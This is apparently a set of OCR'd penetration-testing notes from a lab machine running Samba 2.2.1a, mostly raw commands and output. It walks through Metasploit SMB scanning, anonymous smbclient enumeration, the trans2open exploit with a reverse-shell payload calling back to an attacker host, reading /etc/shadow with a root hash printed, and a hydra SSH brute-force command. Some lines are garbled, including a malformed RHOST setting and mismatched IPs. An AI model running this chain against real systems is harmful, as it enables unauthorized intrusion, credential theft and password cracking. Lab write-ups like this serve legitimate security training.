-  ----                                   ---------------  ----        -----  -----------

0  auxiliary/scanner/smb/smb_version                   normal  No         SMB Version Detection

Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_version

msf6 > use 0

msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.4

RHOSTS => 192.168.1.4

msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.1.4:139           - SMB Detected (versions:) (preferred dialect:) (signatures:optional)

[*] 192.168.1.4:139           -   Host could not be identified: Unix (Samba 2.2.1a)

[*] 192.168.1.4:              - Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed

smbclient -L

Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set

Anonymous login successful

Password for [WORKGROUP\kali]:

Sharename           Type          Comment

---------           ----          -------

IPC$                IPC           IPC Service (Samba Server)

ADMIN$              IPC           IPC Service (Samba Server)

smbclient

Password for [WORKGROUP\kali]:

Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set

Anonymous login successful

Try "help" to get a list of possible commands.

smb: \> ls

NT_STATUS_NETWORK_ACCESS_DENIED listing \*

Exploit

msf exploit(linux/samba/trans2open) > set RHOST192.168.1.14

msf exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp

msf exploit(linux/samba/trans2open) > set lhost 192.168.1.6

msf exploit(linux/samba/trans2open) > exploit

manual exploit: openluck

cat /etc/shadow

root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::

Crack password:

hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://192.168.1.4:22 -t 4 -V

or use ssh_login in msf

